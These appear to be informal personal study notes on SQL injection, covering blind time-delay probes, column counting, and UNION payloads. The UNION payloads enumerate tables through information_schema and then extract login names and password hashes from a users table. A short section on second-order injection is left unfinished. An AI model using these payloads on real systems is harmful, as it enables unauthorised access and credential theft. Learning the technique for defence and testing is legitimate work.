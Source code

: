 ```slq
WAIT_FOR_DELAY() in SQLServer
these are blind sql injections - no auto
select from guessedtablename AND sleep(5)
if it comes back slowly then you know the table name exists

-- the number of columsn you get back in the results can tell you a little more
-- about the shape of the query e.g. if you get back three columns then you can
-- reasonably assume.
SELECT ?,?,? FROM ? WHERE ? LIKE '%somequery%';

So knowing I get back 3 columsn

SELECT ?,?,? FROM ? WHERE ? LIKE '%thing' UNION (SELECT 1,2,3 FROM dual);--%';

query: thing' UNION (SELECT 1,2,3 FROM dual);--
Aside: dual is a MySQL placeholder table name for testing - TODO: find out more
the output of the query above will tell you if you are on the right track

Aside: TODO: sql UNION

query: thing' UNION (SELECT table_name,table_schema,3 FROM information_schema.tables);--
the above query will append the list of tables in the db to the search query so you can see it on the page. From there you can find tables which seem interesting e.g. "users"



query: thing' UNION (SELECT COLUMN_NAME,2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');--
gets the shape of the users table so you know which columsn to select (we have to select less than 3)

query: thing' UNION (SELECT ulogin,uhash,utype FROM users);--
```

```sql
-- If we think the query is something like
SELECT ? FROM ? WHERE ? id = %yourquery%;
-- then we don't need a ' - our attack query can be


-- ; AND 1=1
SELECT ? FROM ? WHERE ? id = 1 AND 1=1;
-- if the above returns the right answer this would tell us that this is an
-- injection point because the DB cheerfully ran our SQL
```

## Second order SQLi

you put something in as a query and it gets used internally as a query
i.e. the sql gets escaped but it gets stored in the DB

## Outcomes of successsful SQLi
